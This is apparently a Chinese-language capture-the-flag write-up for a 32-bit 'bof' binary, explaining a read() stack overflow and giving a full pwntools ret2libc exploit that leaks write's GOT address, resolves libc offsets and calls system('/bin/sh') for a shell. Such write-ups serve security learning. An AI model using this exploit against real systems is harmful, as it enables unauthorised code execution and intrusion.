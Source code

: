 <img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204091213984.png" alt="image-20220409093005140" style="zoom:80%;" />

看到write函数打印出buf的内容，调用了vuln函数，点进去看看

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204090932151.png" alt="image-20220409093224094" style="zoom:80%;" />

read函数明显存在栈溢出

攻击思路：利用栈溢出泄露libc版本，进而拿到shell

**泄露libc**

```python
payload=junk+p32(write_plt)+p32(vuln)+p32(1)+p32(write_got)+p32(4)
io.sendline(payload)
write_addr=u32(io.recvuntil('\xf7')[-4:])#接收到f7开头的数据截止(一般地址以f7开头)
print(hex(write_addr))
```

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204091213172.png" alt="image-20220409095234064" style="zoom:80%;" />

末尾的三位是c20，可以在线网站查询，也可以直接使用python中LibcSearcher直接查询(有时候查不到)

**构造payload拿到shell**

```python
libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')

payload=junk+p32(system)+b'aaaa'+p32(bin_sh)
```

exp

```python
from pwn import*
from LibcSearcher import*

context(os='linux',arch='i386',log_level='debug')
#io=remote('node4.buuoj.cn',27481)
io=process('./bof')
elf=ELF('./bof')

junk=b'a'*(0x6c+4)
vuln=elf.sym['vuln']
write_plt=elf.plt['write']
write_got=elf.got['write']

payload=junk+p32(write_plt)+p32(vuln)+p32(1)+p32(write_got)+p32(4)
io.sendline(payload)
write_addr=u32(io.recvuntil('\xf7')[-4:])#接收到f7开头的数据截止(一般地址以f7开头)
print(hex(write_addr))

libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')

'''			#我的本地直接libc查询不到，就到网上在线查询到了，很奇怪
base=write_addr-0xf1c20
system=base+0x41780
bin_sh=base+0x18e363
'''

payload=junk+p32(system)+b'aaaa'+p32(bin_sh)
io.sendline(payload)
```